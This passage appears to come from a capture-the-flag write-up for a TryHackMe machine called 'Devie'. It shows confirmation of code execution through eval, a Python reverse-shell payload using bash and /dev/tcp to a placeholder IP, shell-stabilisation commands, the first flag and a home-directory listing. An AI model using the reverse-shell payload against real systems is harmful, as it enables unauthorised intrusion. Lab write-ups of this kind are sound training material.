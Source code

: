 If we decode the contents:

```python
Encrypted data: dWlkPTEwMDAoYnJ1Y2UpIGdpZD0xMDAwKGJydWNlKSBncm91cHM9MTAwMChicnVjZSkK
[+] Decrypted: uid=1000(bruce) gid=1000(bruce) groups=1000(bruce)
```

As seen `RCE` works. Let's craft a payload to get a reverse shell:

```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/IP/9001 0>&1"')
```

If we got our listener ready, we will receive the connection:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250504143524.png)

Let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


First step is to get ourselves a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250504143634.png)

We can read first flag:

```
bruce@devie:~$ cat flag1.txt
THM{Car3ful_witH_3v@l}
```

In our home directory, we can find this:

```bash
bruce@devie:~$ ls -la
total 44
drwxr-xr-x 4 bruce bruce 4096 Feb 20  2023 .
drwxr-xr-x 4 root  root  4096 May 12  2022 ..
lrwxrwxrwx 1 root  root     9 May 13  2022 .bash_history -> /dev/null
-rw-r--r-- 1 bruce bruce  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 bruce bruce 3771 Feb 25  2020 .bashrc
drwx------ 2 bruce bruce 4096 May 12  2022 .cache
-rw-r--r-- 1 root  root   158 Feb 19  2023 checklist
-rw-r----- 1 root  bruce   23 May 12  2022 flag1.txt
-rw-r--r-- 1 root  root   355 Feb 20  2023 note
-rw-r--r-- 1 bruce bruce  807 Feb 25  2020 .profile
-rw-rw-r-- 1 bruce bruce   75 May 12  2022 .selected_editor
drwx------ 2 bruce bruce 4096 May 12  2022 .ssh
-rw------- 1 bruce bruce    0 May 12  2022 .viminfo
```
